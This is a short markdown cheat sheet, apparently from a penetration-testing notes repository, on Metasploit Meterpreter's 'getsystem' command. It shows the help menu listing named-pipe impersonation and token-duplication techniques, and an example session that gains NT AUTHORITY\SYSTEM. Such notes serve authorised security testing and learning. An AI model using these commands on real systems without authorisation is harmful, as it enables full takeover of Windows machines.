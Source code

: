 # Metasploit

## 01 - Help Menu

```
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h   Help Banner.
    -t   The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
		5 : Named Pipe Impersonation (PrintSpooler variant)
```

## 02 - Basics

```
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---
## References

- [XPNSec Blog: Becoming System](https://blog.xpnsec.com/becoming-system/)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)